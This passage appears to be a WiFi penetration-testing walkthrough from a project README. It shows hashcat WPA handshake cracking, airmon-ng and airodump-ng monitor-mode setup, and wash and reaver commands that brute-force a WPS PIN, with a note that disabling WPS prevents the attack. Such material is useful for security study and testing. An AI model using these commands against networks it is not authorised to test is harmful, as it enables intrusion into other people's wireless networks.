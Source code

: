 ### Rule Based Attack
```
hashcat -m 2500 -r rules/best64.rule capture.hccapx wordlist.txt
```




# Packet monitoring and injection mode
Once we started KALI on VituralBox, the first thing we did was to map the 2200mW NextG USB-Yagi TurboTenna as the USB Device by selecting "Ralink 802.11 n WLAN [0101]"
On the command line terminal, we entered the commands below.
Check the presence of the 2200mW NextG USB-Yagi TurboTenna (wlan0):
```
ifconfig -a
```
Packet monitoring and injection commands:
```
airmon-ng check kill

airmon-ng check

airmon-ng start wlan0

airodump-ng wlan0mon
```

# REAVER - WPS Pin Attack

WiFi Protected Setup (WPS) is a convenient feature that allows the user to configure a client device against a wireless network by simultaneously pressing a button on both the WiFi router and the client device (the client side “button” is often in software) at the same time. The devices exchange information, and then set up a secure WPA link.

Reaver was designed to brute-force the WPA handshaking process remotely, even if the physical WPS button hadn’t been pressed on the WiFi router.

While some newer devices are building in protection against this specific attack, the Reaver WPS exploit remains useful on many networks in the field.

In particular, WPS is the vulnerable system in this case, not WPA. If a network has WPS disabled (which they should, given the existence of tools such as this), it will be immune to the following attack.

To generate a list of WiFi networks that shows the status of WPS Locked:
```
wash -i wlan0mon
```
The “WPS Locked” column in the list is far from a definitive indicator, but those WPS Unlocked WiFi networks are much more susceptible to brute forcing.

To launch Reaver against WiFi network with <BSSID> 11:22:33:44:55:66 :
```
reaver -i wlan0mon -b 11:22:33:44:55:66 -vv -K 1
```
It may take several hours and perhaps even longer to run because better designed WiFi router are getting smarter in terms of rejecting repeated attacks, longer and irregular timeout periods, illogical checksum and NULL pin.
